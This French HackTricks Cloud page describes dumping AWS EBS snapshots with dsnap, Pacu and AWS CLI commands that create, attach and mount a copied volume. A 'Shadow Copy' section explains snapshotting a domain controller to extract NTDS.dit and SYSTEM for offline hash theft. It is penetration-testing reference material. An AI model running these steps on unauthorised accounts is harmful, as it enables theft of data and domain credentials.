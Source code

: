 # AWS - EBS Spanshot Dump

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### Vérification d'un instantané localement

```bash
# Installer les dépendances
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Obtenir un instantané à partir de l'image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Télécharger un instantané du volume de cette instance
## Si aucun instantané n'existait, il essaiera d'en créer un
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Autre façon d'obtenir un instantané
dsnap list #Liste des instantanés
dsnap get snap-0dbb0347f47e38b96 #Télécharger l'instantané directement

# Exécuter avec vagrant
IMAGE="<download_file>.img" vagrant up #Exécuter l'image avec vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Accéder à la VM
vagrant destroy #Pour détruire

# Exécuter avec docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #Avec l'instantané téléchargé
```

Pour plus d'informations sur cette technique, consultez la recherche originale sur [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Vous pouvez faire cela avec Pacu en utilisant le module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Vérification d'un instantané dans AWS

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89
```

**Montez-le dans une VM EC2 sous votre contrôle** (il doit être dans la même région que la copie de la sauvegarde) :

**étape 1 :** Accédez à EC2 -> Volumes et créez un nouveau volume de la taille et du type de votre choix.

**étape 2 :** Sélectionnez le volume créé, cliquez avec le bouton droit de la souris et sélectionnez l'option "attacher le volume".

**étape 3 :** Sélectionnez l'instance dans la zone de texte de l'instance comme indiqué ci-dessous.

![](<../../../../.gitbook/assets/image (6) (1) (1).png>)

**étape 4**_:_ Maintenant, connectez-vous à votre instance ec2 et répertoriez les disques disponibles à l'aide de la commande suivante.

```
lsblk
```

La commande ci-dessus affichera le disque que vous avez attaché à votre instance.

**étape 5 :**

![](<../../../../.gitbook/assets/image (75).png>)

Vous pouvez faire cela avec Pacu en utilisant le module ebs\_\_explore\_snapshots

### Vérification d'un instantané dans AWS (en utilisant cli)

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attacher un nouveau volume à l'instance
$ aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# Monter l'instantané depuis la VM
$ sudo file -s /dev/xvdb1
# Renvoie :
# /dev/xvdb1: Linux rev 1.0 ext4 filesystem data, UUID=5a2075d0-d095-4511-bef9-802fd8a7610e, volume name "cloudimg-rootfs" (extents) (large files) (huge files)
$ sudo mount /dev/xvdb1 /mnt
```

### Shadow Copy

Tout utilisateur AWS possédant l'autorisation **`EC2:CreateSnapshot`** peut voler les hachages de tous les utilisateurs de domaine en créant un **instantané du contrôleur de domaine**, en le montant sur une instance qu'il contrôle et en exportant les fichiers NTDS.dit et SYSTEM du registre pour une utilisation avec le projet secretsdump d'Impacket.

Vous pouvez utiliser cet outil pour automatiser l'attaque : [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ou vous pouvez utiliser l'une des techniques précédentes après avoir créé un instantané. 

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>